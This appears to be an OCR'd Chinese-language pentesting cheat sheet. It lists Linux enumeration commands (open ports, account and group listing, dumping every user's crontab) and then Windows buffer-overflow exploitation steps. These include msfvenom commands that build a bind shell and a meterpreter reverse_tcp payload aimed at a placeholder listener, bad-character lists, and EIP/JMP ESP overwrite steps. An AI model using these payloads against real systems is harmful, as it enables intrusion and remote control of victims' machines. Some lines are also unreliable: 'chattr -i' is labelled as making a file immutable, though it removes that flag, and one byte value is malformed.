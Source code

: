 # 查找未链接的文件
lsof +L1

# 获取进程打开端口的信息
lsof -i

# 看看 ARP 表中是否有奇怪的东西
arp -a

# 查看所有账户
getent passwd

# 查看所有用户组
getent group

# 列举所有用户的 crontabs
for user in $(getent passwd|cut -f1 -d:); do echo "### Crontabs for $user ####"; crontab -u $user -l; done

# 生成随机密码
cat /dev/urandom| tr -dc ‘a-zA-Z0-9-_!@#$%^&*()_+{}|:<>?=’|fold -w 12| head -n 4

# 查找所有不可修改的文件
find . | xargs -I file lsattr -a file 2>/dev/null | grep ‘^….i’

# 使文件不可修改
chattr -i file
```
Windows 缓冲区溢出利用命令
```
msfvenom -p windows/shell_bind_tcp -a x86 --platform win -b "\x00" -f c
msfvenom -p windows/meterpreter/reverse_tcp LHOST=X.X.X.X LPORT=443 -a x86 --platform win -e x86/shikata_ga_nai -b "\x00" -f c

COMMONLY USED BAD CHARACTERS:
\x00\x0a\x0d\x20                              For http request
\x00\x0a\x0d\x20\x1a\x2c\x2e\3a\x5c           Ending with (0\n\r_)

# 常用命令:
pattern create
pattern offset (EIP Address)
pattern offset (ESP Address)
add garbage upto EIP value and add (JMP ESP address) in EIP . (ESP = shellcode )
